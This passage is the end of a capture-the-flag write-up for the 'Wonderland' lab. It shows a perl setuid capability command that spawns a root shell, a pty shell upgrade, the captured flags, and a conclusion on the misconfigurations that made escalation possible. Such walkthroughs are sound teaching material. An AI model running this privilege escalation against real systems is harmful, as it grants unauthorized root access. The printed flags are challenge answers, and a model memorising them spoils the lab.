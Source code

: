 From [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#capabilities), we can manipulate the UID of the perl binary itself gain privileged access.

##### Command:
>perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'

```
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/
# whoami
root
# python3.6 -c 'import pty; pty.spawn("/bin/bash")'
root@wonderland:~#
```

And now we are root! Again, the command ```python3.6 -c 'import pty; pty.spawn("/bin/bash")' ``` is used to gain a more stable shell. We can now read the root flag ```/home/alice/root.txt```. We also find the ```user.txt``` flag hidden in the root directory. Pretty mischievous that the ‘easier’ flag still required root access!

```
root@wonderland:/home/alice# cat root.txt
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
root@wonderland:/home/alice# cd /root
root@wonderland:/root# ls
user.txt
root@wonderland:/root# cat user.txt
thm{"Curiouser and curiouser!"}
```
We now have both flags, and the challenge is complete.

### Conclusion

Throughout this CTF challenge, many penetration testing techniques were explored, especially those relating to lateral movement and pivoting through a system.

We started with some iniital reconnaissance, when we found a web server running. We enumerated subdirectories on this web server, and eventually found the first SSH credentials, allowing us initial access to the system. We then used numerous mathods for lateral movement and privilege escelation, including Python Library Hijacking, using malicious binaries and editing the PATH variable, and exploiting misconfigured capabilities. Through these techniques, we were able to find both the root flag and user flag.

This room has highlighted the vulnerabilities exposed by simple misconfigurations. None of these pivoting methods would have worked if it weren't for the evident misconfigurations in this system. Program imports should be limited, and users should not be able to change library files. Moreover, the error in the Python library-searching hierachy should not have been present. Additionally, users should not be allowed to edit the PATH variable, and executables should not directly induce binaries using unquoted service paths - this is the vulnerability that allowed us to use a malicious ```date``` binary. We have also seen that capabilities, whilst useful, must be used resposibly.

### Tools Used
 * nmap
 * gobuster
 * netcat
 * strings
